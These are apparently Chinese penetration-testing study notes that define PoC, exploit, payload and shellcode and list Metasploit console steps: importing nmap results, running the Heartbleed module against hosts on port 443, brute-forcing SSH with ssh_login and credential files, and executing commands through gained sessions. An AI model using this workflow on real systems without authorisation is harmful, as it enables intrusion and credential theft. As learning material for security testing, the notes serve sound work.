 PoC，全称“Proof of Concept”，中文“概念验证”，常指一段漏洞证明的代码。

Exp，全称“Exploit”，中文“利用”，指利用系统漏洞进行攻击的动作。

Payload，中文“有效载荷”，指成功 exploit 之后，真正在目标系统执行的代码或指令。

Shellcode，简单翻译“shell 代码”，是 Payload 的一种，由于其建立正向/反向 shell 而得名。





```sh
#msf使用
db_nmap    nmap工具
db_import  导入结果（导入nmap扫描后的结果）
hosts查看导入的信息
servers查看端口信息

```

![image-20210826103224831](cobaltstrike/image-20210826103224831.png)







use heartbleed



set rhosts file:/xxx/xx.txt





services -p 443 -u -R配置到rhosts

run

![image-20210826114900259](cobaltstrike/image-20210826114900259.png)



```sh
services -p 22 -R
寻找

search ssh_login 


use 0

options

set threads 10

set user_file xxx.txt

set pass_file xxx.txt

shell--> session
sessions -h查看帮助
sessions -c whoami -i 2        在某个session执行命令
sessions -C meterpreter_command -i 执行msf命令
```